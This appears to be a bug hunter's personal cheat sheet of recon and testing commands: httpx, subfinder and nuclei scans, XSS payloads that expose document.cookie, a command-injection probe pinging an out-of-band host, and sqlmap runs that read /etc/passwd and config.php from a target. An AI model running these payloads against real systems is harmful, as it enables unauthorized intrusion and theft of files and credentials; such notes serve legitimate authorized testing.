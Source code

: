 # Bug Bounty Personal Tips

## Recon 

##### shodan
`http.favicon.hash:123456789`

## HTTPX 

`/home/kali/go/bin/httpx -l FC -ss -srd /media/sf_Test/FC/screenshots/ --title --status-code -o /media/sf_Test/FC_httpx.txt `

`/home/kali/go/bin/httpx -l FC -proxy http://192.168.0.131:1337 `

`
/home/kali/go/bin/httpx -l X -p 80,81,443,591,593,832,981,1010,1311,2082,2087,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5800,6543,7000,7396,7474,8000,8001,8008,8014,8042,8069,8080,8081,8088,8090,8091,8118,8123,8172,8222,8243,8280,8281,8333,8443,8500,8834,8880,8888,8983,9000,9043,9060,9080,9090,9091,9200,9443,9800,9981,12443,16080,18091,18092,20720,28017,11443 -sc -fr --title -ss -favicon
`

## XSS
```  : /"><script>alert(document.cookie)</script> ```

``` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E ```

## SSRF 
``` galletita ; ping -c 1 burp.oastify.com ```

## SQLMAP
```
sqlmap -u "http://X/dashboard/dashboard.php" \
--data "search=34" \
--cookie "PHPSESSID=X" \
--batch --random-agent \
--file-read="/etc/passwd"
```

```
sqlmap -u "http://X/dashboard/dashboard.php" \
--data "search=34" \
--cookie "PHPSESSID=X" \
--batch --random-agent \
--file-read="/var/www/html/config.php"
```

### OTHERS
``` assetfinder X.com | tee -a /tmp/X.txt```

``` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt ```

```  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337```

``` subfinder -d X | /home/kali/go/bin/httpx -u -status-code -title -tech-detect -follow-redirects -timeout 5 ```

``` site:*.com.ar "bug bounty" OR "vulnerability disclosure" OR "security policy" ```

